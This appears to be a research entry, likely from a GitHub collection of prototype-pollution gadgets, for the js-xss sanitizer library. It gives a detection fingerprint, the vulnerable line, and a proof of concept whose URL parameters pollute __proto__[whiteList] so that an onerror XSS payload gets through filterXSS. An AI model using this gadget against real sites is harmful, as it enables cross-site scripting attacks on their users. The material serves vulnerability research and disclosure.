 ## js-xss

URL: https://github.com/leizongmin/js-xss/

### JS Fingerprint
```
return (filterXSS !== 'undefined')
```

### Vulnerable code fragment
https://github.com/leizongmin/js-xss/blob/3cf0ff6f865118bb5759ae9cdead6ae949648e43/lib/xss.js#L84
```js
  options.whiteList = options.whiteList || DEFAULT.whiteList;
```

### PoC

```
?__proto__[whiteList][img][0]=onerror&__proto__[whiteList][img][1]=src
```

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/js-xss/0.3.3/xss.min.js"></script>
<script>
  Object.prototype.whiteList = {img: ['onerror', 'src']}
</script>
<script>
  document.write(filterXSS('<img src onerror=alert(1)>'))
</script>
```